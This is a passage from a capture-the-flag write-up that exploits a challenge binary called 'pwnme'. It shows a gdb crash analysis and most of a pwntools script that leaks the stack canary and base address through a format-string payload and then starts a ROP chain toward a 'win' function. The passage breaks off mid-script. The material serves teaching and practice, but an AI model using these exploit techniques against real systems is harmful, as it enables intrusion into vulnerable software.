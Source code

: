 In the other terminal:

```bash
$ gdb -p 195867
gdb-peda$ c
Continuing.
...
Stopped reason: SIGSEGV
0x00005648774bb2f7 in vuln ()
gdb-peda$ bt
#0  0x00005648774bb2f7 in vuln ()
#1  0x6e41412441414241 in ?? ()
#2  0x41412d4141434141 in ?? ()
...
gdb-peda$ pattern_offset 0x6e41412441414241
7944702841627689537 found at offset: 8
```

Perfect, so now we know how large our payload total needs to be:

- 24 bytes + Canary (8bytes) + 8 more bytes = 40 bytes

We can now write our exploit!

```python
from pwn import *

local = False

fname = "./pwnme"
hostname = '0.cloud.chals.io'
port = 12229

canary_arg = 13
canary_offset = 24

binary = context.binary = ELF(fname)

if local:
    p = process(fname)
else:
    p = remote(hostname, port)


# Required different stack arguments on the remote server!
base_arg = 0
if local:
    base_arg = 11
else:
    base_arg = 10

p.sendlineafter(b'?', f"%{canary_arg}$016lx%{base_arg}$016lx".encode())
leak = p.recv(32).decode()
canary = int(leak[:16],16)
base = int(leak[16:],16) - (binary.sym['main'] - binary.address)

log.info(f"leak: {leak}")
log.info(f"canary: {hex(canary)}")
log.info(f"base addr: {hex(base)}")

# set base address
binary.address = base
win = binary.sym['win']
rop = ROP(binary)
rop.raw(b"A" * canary_offset)
rop.raw(p64(canary))
```